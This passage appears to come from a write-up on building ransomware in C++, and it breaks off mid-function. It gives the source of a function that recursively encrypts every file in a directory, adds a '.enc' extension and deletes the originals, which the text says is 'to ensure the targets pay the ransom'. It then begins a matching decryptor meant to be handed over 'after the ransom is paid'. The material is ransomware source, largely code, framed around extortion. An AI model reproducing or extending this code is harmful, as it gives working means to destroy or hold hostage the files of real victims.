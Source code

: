 The `loadkeys` function reads the keys from the saved file (generated from the `generatekeys` function) and allows other functions or processes to use the values. This function is used in a larger function encryptDirectory which scans a folder and encrypts all files in it, it also goes into sub-folders and encrypts all files and then adds a `.enc` extension to the encrypted files.

```cpp
int encryptDirectory(const string& directory, const string& keyFile) {
    for (const auto& entry : fs::recursive_directory_iterator(directory)) {
        if (entry.is_regular_file()) {
            string filePath = entry.path().string();

            // check if file has already been encrypted
            if (filePath.ends_with(".enc")) {
                cout << "[*] File already encrypted: " << filePath << ". Skipping..." << endl;
                return EXIT_SUCCESS;
            }

            // add .enc extension to the file
            string encryptedFilePath = filePath + ".enc";

            // check if encryption worked and delete the original file
            if (encryptFile(filePath, encryptedFilePath, keyFile) == EXIT_SUCCESS) {
                fs::remove(filePath);
                cout << "[+] Deleted original file: " << filePath << endl;
            }
        }
    }
    return EXIT_SUCCESS;
}
```

After the files are encrypted, the original unencrypted versions are deleted to ensure the targets pay the ransom in order ro have the files restored.

## The Antidote: Building the Decryptor Tool

To undo the encryption, there was the need for a decryption tool. This tool would also be provided to the target after the ransom is paid. It reads the keys stored in the file generated by `generateKeys` and then uses the values for the decryption process.

```cpp
int decryptFile(const fs::path& inputFile, const fs::path& outputFile, const fs::path& keyFile) {
    try {
        vector<CryptoPP::byte> key, iv;
        `loadKeys`(keyFile.string(), key, iv);

        // Read Encrypted Data from File
        ifstream inFile(inputFile, ios::binary);
        if (!inFile) {
            cerr << "[-] Error opening file: " << inputFile << " for decryption" << endl;
            return EXIT_FAILURE;
        }

        ostringstream buffer;
        buffer << inFile.rdbuf();
        string cipherText = buffer.str();
        inFile.close();

        // Decrypt Data
        string plainText;
        CBC_Mode<AES>::Decryption decryptor;
        decryptor.SetKeyWithIV(key.data(), key.size(), iv.data());

        StringSource(cipherText, true,
            new StreamTransformationFilter(decryptor,
```